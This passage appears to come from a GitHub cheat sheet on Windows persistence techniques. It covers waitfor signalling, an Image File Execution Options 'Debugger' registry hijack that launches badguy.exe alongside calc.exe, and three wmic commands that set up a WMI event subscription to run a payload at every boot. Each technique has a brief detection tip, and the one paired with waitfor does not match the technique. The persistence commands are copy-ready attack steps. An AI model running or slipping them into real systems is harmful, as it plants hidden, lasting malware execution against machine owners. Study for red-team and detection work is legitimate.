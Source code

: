 You will send a signal to target_macheine, and your **badguy.exe** will be executed.
(You need to be in **LAN** with *target_machine*)

*refer: https://pentestlab.blog/2020/02/04/persistence-waitfor/*

#### Detection:
User can see imported modules by executing

```powershell
write-host "$PSModulePath"
```

</br></br>

# Admin

</br>

## Debugger


#### Example:

```powershell
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\calc.exe" /v Debugger /t reg_sz /d "cmd /C C:\Windows\System32\calc.exe & c:\path\to\badguy.exe" /f
```

Add command in **HKLM** reg,  that will execute your **badguy.exe**  

#### Detection:
User can see malicious string in reg **HKLM**


</br></br>

## Using WMI (Windows Management Instrumentation)

Windows Management Instrumentation (WMI) enables system administrators to perform tasks locally and remotely.

Typically persistence via WMI event subscription requires creation of the following three classes which are used to store the payload or the arbitrary command, to specify the event that will trigger the payload and to relate the two classes (__EventConsumer &__EventFilter) so execution and trigger to bind together.

-   **__EventFilter** // Trigger (new process, failed logon etc.)
-   **EventConsumer** // Perform Action (execute payload etc.)
-   **__FilterToConsumerBinding** // Binds Filter and Consumer Classes

#### Example:
Execution of the following commands will create three events in the _“**root\subscription**“_ namespace. The arbitrary payload will be executed within 60 seconds every time Windows starts.
```powershell
 wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="PentestLab", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
 wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="PentestLab", ExecutablePath="C:\Windows\System32\pentestlab.exe",CommandLineTemplate="C:\Windows\System32\pentestlab.exe"
 wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"PentestLab\"", Consumer="CommandLineEventConsumer.Name=\"PentestLab\""
```
